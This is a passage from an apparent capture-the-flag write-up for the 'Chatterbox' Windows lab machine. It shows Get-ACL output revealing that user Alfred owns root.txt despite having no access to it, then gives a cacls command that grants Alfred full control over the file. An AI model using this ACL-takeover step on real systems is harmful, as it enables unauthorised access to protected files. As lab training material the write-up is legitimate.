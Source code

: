 ```
PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\Users
PSChildName             : administrator
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : NT AUTHORITY\SYSTEM Allow  FullControl
                          BUILTIN\Administrators Allow  FullControl
                          CHATTERBOX\Administrator Allow  FullControl
                          CHATTERBOX\Alfred Allow  FullControl
AuditToString           : 
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator
Owner                   : NT AUTHORITY\SYSTEM
Group                   : NT AUTHORITY\SYSTEM
Access                  : {System.Security.AccessControl.FileSystemAccessRule, 
                          System.Security.AccessControl.FileSystemAccessRule, S
                          ystem.Security.AccessControl.FileSystemAccessRule, Sy
                          stem.Security.AccessControl.FileSystemAccessRule}
Sddl                    : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;
                          FA;;;LA)(A;OICI;FA;;;S-1-5-21-1218242403-4263168573-5
                          89647361-1000)
AccessRightType         : System.Security.AccessControl.FileSystemRights
AccessRuleType          : System.Security.AccessControl.FileSystemAccessRule
AuditRuleType           : System.Security.AccessControl.FileSystemAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True
```
- we can do same for the root.txt file `Get-ACL root.txt | Fl *`
```
PS C:\Users\Administrator\Desktop> Get-ACL root.txt | Fl *


PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\Users\Admini
                          strator\Desktop\root.txt
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\Users\Admini
                          strator\Desktop
PSChildName             : root.txt
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : CHATTERBOX\Administrator Allow  FullControl
AuditToString           : 
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\Users\Admini
                          strator\Desktop\root.txt
Owner                   : CHATTERBOX\Alfred
Group                   : CHATTERBOX\None
Access                  : {System.Security.AccessControl.FileSystemAccessRule}
Sddl                    : O:S-1-5-21-1218242403-4263168573-589647361-1000G:S-1-
                          5-21-1218242403-4263168573-589647361-513D:PAI(A;;FA;;
                          ;LA)
AccessRightType         : System.Security.AccessControl.FileSystemRights
AccessRuleType          : System.Security.AccessControl.FileSystemAccessRule
AuditRuleType           : System.Security.AccessControl.FileSystemAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True
```
and look at the at the AccessToString and we will see that it is only Chatterbox admin, but if we will at the owner, alfred owns the file
- we can do cacls or icacls `cacls  root.txt /t /e /p Alfred:F`